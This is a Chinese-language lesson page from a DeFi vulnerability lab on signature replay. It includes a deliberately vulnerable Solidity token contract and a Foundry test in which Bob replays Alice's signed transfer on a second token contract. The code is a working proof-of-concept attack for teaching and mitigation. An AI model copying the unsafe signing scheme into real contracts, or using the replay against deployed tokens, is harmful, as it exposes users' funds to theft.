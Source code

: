 # 签名重放
[SignatureReplay.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/SignatureReplay.sol)  
**名称：** 签名重放漏洞  

**描述：**  
在这种情况下，Alice签署了一项交易，允许Bob将代币从Alice的账户转移到Bob 的账户。  

然后，Bob在多个合约（在本例中为 TokenWhale 和 SixEyeToken 合约）上重放此签名，  
每次都授权将代币从Alice的账户转移到他的账户。这是可能的，因为合约使用相同的方法来签署和验证交易，  
但是它们没有共享用于防止重放攻击的nonce。   

缺少针对签名重放攻击的保护，可以多次使用相同的签名来执行函数。  


**缓解建议：**   
可以通过在签名和验证过程中使用nonce（仅使用一次的数字）来防止重放攻击。  

**参考：**  
https://medium.com/cryptronics/signature-replay-vulnerabilities-in-smart-contracts-3b6f7596df57  
https://medium.com/cypher-core/replay-attack-vulnerability-in-ethereum-smart-contracts-introduced-by-transferproxy-124bf3694e25  


**TokenWhale合约：**  
```
contract TokenWhale is Test {
    address player;

    uint256 public totalSupply;
    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    string public name = "Simple ERC20 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;
    mapping(address => uint256) nonces;

    function TokenWhaleDeploy(address _player) public {
        player = _player;
        totalSupply = 2000;
        balanceOf[player] = 2000;
    }

    function _transfer(address to, uint256 value) internal {
        balanceOf[msg.sender] -= value;
        balanceOf[to] += value;
    }

    function transfer(address to, uint256 value) public {
        require(balanceOf[msg.sender] >= value);
        require(balanceOf[to] + value >= balanceOf[to]);

        _transfer(to, value);
    }

    function transferProxy(
        address _from,
        address _to,
        uint256 _value,
        uint256 _feeUgt,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) public returns (bool) {
        uint256 nonce = nonces[_from];
        emit log_named_uint("nonce", nonce);
        bytes32 h = keccak256(
            abi.encodePacked(_from, _to, _value, _feeUgt, nonce)
        );
        if (_from != ecrecover(h, _v, _r, _s)) revert();

        if (
            balanceOf[_to] + _value < balanceOf[_to] ||
            balanceOf[msg.sender] + _feeUgt < balanceOf[msg.sender]
        ) revert();
        balanceOf[_to] += _value;

        balanceOf[msg.sender] += _feeUgt;

        balanceOf[_from] -= _value + _feeUgt;
        nonces[_from] = nonce + 1;
        return true;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/SignatureReplay.sol -vvvv 
```  
// 使用代币合约演示重放攻击的函数
function testSignatureReplay() public {
    // 记录合约的当前余额。
    emit log_named_uint(
        "Balance",
        TokenWhaleContract.balanceOf(address(this))
    );

    // 根据输入数据生成唯一的哈希值
    bytes32 hash = keccak256(
        abi.encodePacked(
            address(alice),
            address(bob),
            uint256(499),
            uint256(1),
            uint256(0)
        )
    );

    // 记录哈希值
    emit log_named_bytes32("hash", hash);

    // 使用地址的私钥对哈希进行签名
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(1, hash);

    // 记录签名组成部分
    emit log_named_uint("v", v);
    emit log_named_bytes32("r", r);
    emit log_named_bytes32("s", s);

    // 从签名中恢复签名者的地址
    address alice_address = ecrecover(hash, v, r, s);

    // 记录签名者的地址
    emit log_named_address("alice_address", alice_address);

    // 提示可能的攻击
    emit log_string(
        "If attacker got the Alice's signature, the attacker can replay this signature on the others contracts with same method."
    );

    // Bob变成了恶作剧者
    vm.startPrank(bob);

    // Bob使用Alice的签名将代币从Alice的账户转移到他自己的账户
    TokenWhaleContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // 记录Bob的新余额
    emit log_named_uint(
        "SET token balance of Bob",
        TokenWhaleContract.balanceOf(address(bob))
    );

    // 记录攻击的下一步
    emit log_string(
        "Try to replay to another contract with same signature"
    );

    //在重放之前，记录Bob在另一个代币中的余额。
    emit log_named_uint(
        "Before the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob使用Alice的签名在不同的合约中转移代币
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    // 记录Bob在第二份合约中的新余额
    emit log_named_uint(
        "After the replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );

    // Bob尝试在同一个合约上重放攻击，但由于随机数检查而失败
    SixEyeTokenContract.transferProxy(
        address(alice),
        address(bob),
        499,
        1,
        v,
        r,
        s
    );

    //  第二次尝试后记录Bob的余额
    emit log_named_uint(
        "After the second replay, SIX token balance of bob:",
        SixEyeTokenContract.balanceOf(address(bob))
    );
}
```  
**红框：** 签名重放。  
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F25146438-71a8-47bc-a7e7-a32ea63cf6b0%2FUntitled.png?table=block&id=19975d97-c976-4b16-9e9a-2cf903bf0b5f&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)